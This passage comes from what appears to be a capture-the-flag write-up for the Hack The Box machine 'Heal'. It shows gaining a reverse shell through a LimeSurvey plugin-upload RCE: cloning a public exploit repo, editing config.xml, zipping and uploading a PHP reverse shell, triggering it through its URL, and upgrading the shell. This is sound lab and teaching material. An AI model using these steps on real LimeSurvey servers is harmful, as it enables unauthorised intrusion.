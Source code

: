 Also from the database, we can infer ralph is an administrator, which means we can try out the RCE on limesurvey. [https://ine.com/blog/cve-2021-44967-limesurvey-rce](https://ine.com/blog/cve-2021-44967-limesurvey-rce)

Now going back to the site, we visit take-suvey.heal.htb/admin we get redirected to administrator login, let’s login as ralph.

As admin, we have the ability to upload zip files for plugins. Let’s follow the RCE writeup and attempt to upload a reverse shell. 

![image.png]({{ site.baseurl }}/assets/heal/image%2010.png)

And we clone this github repo:

```bash
git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.git
```

And we change the IP in the reverse shell file to our own IP. Also, in the config.xml file, we have to change the version to 6.6.4:

```bash
        <version>6.6.4</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
                <![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>
        <version>6.0</version>

```

```bash
zip -r plugin.zip config.xml php-rev.php
```

Now back on the admin panel, let’s upload the file and activate it 

![image.png]({{ site.baseurl }}/assets/heal/image%2011.png)

Now Go url+{upload/plugins/#Name/#Shell_file_name}

```bash
http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php
```

We have a shell:

![image.png]({{ site.baseurl }}/assets/heal/image%2012.png)

Now let’s upgrade it:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
